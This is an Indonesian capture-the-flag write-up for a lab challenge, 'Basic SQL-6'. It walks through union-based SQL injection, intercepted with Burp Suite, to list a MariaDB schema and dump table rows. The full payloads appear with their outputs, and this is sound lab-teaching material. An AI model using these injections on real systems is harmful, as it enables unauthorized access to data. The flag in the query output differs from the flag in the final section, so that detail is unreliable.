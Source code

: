 <h1><b>Basic SQL-6</h1></b>
<pre>
Select form (ID, Username, Group)
</pre>
</b><h3>Solution</h3></b>
<p align='justify'>Jika kita coba submit salah satu list, maka URLnya berubah sama sekali. Dapat dipastikan ini menggunakan method requests GET, yang artinya kita harus melakukan interception untuk modifikasi 
data yang kita kirim ke server. Disini saya menggunakan burpsuit, setting burpsuit untuk dapat melakukan interception khususnya pada challenge ini</p>
<p align='justify'>Jika selesai, coba interception content dan modifikasi dengan SQL Injection, contohnya admin --> admin'</p>
<p align='center'>
  <img src='https://github.com/enomarozi/Writeup-CTF_Online/blob/master/BackdoorCTF/Images/BurpSuit_Venom1.jpg'>
</p>
<p align='justify'>Setelah dilakukan beberapa kali injection dan hasilnya error semua, disini saya beranggapan mungkin pada form ID itu type Integer, yaitu kita harus menginputkan 
nilai yang diapiti tanda kutip(') supaya nilai inputan menjadi type string atau varchar di MySQL, dan kondisi ini berlaku union injection</p>
<p align='justify'>Sekarang coba injection untuk menentukan banyak column pada table database</p>
<pre>
1. '-1' union select 1,2 -- - (terjadi error)
2. '-1' union select 1,2,3 -- - (berhasil)
3. '-1' union select 1,2,3,4 -- - (terjadi error)
</pre>
<p align='justify'>Berarti kita mendapatkan bahwa pada table hanya terdiri 3 column, sekarang sesi mendapatkan nama table dan versi database</p>
<pre>
'-1' union select version(),database(),3 -- -
Hasilnya
Your ID : 10.3.23-MariaDB-1
Username : CTF
Group : 3
</pre>
<p align='justify'>Kita sudah mendapatkan nama databasenya yaitu <b>CTF</b>, selanjutnya mendapatkan nama table pada DB</p>
<pre>
'-1' union select (select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA='CTF'),2,3 -- -
Hasilnya
Your ID : SQL_Challenge8
Username : 2
Group : 3
</pre>
<p>Dan nama table sudah didapatkan yaitu <b>SQL_Challenge8</b>, selanjutnya mencari nama column dari table</p>
<pre>
'-1' union select (select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='SQL_Challenge8'),2,3 -- -
Hasilnya
Your ID : id,username,level
Username : 2
Group : 3
</pre>
<p align='justify'>Jika kita sudah mendapatkan table dan column, sekarang kita lakukan injection untuk seluruh field, untuk field yang sudah terdapat pada list select abaikan saja, yang artinya kita mulai dari field 4,1</p>
<pre>
'-1' union select (select id from SQL_Challenge8 limit 4,1),(select username from SQL_Challenge8 limit 4,1),(select level from SQL_Challenge8 limit 4,1) -- -  
Your ID : 9989
Username : Flag
Group : privilage level flag
'-1' union select (select id from SQL_Challenge8 limit 5,1),(select username from SQL_Challenge8 limit 5,1),(select level from SQL_Challenge8 limit 5,1) -- -   
Your ID : 9999
Username : Flag
Group : more
'-1' union select (select id from SQL_Challenge8 limit 6,1),(select username from SQL_Challenge8 limit 6,1),(select level from SQL_Challenge8 limit 6,1) -- - 
Your ID : 1111
Username : Flag
Group : more again
'-1' union select (select id from SQL_Challenge8 limit 7,1),(select username from SQL_Challenge8 limit 7,1),(select level from SQL_Challenge8 limit 7,1) -- - 
Your ID : 1337
Username : Flag
Group : VenomCTF{0rd3r_BY_9_1s_3rr0r}
</pre>
<p align='center'>
  <img src='https://github.com/enomarozi/Writeup-CTF_Online/blob/master/BackdoorCTF/Images/BurpSuit_Venom2.jpg'>
</p>
<p>Dan flag didapatkan pada field 7,1 column Level</p>
</b><h3>Flag</h3></b>
<pre>
VenomCTF{0rd3r_BY_4_1s_3rr0r}
</pre>
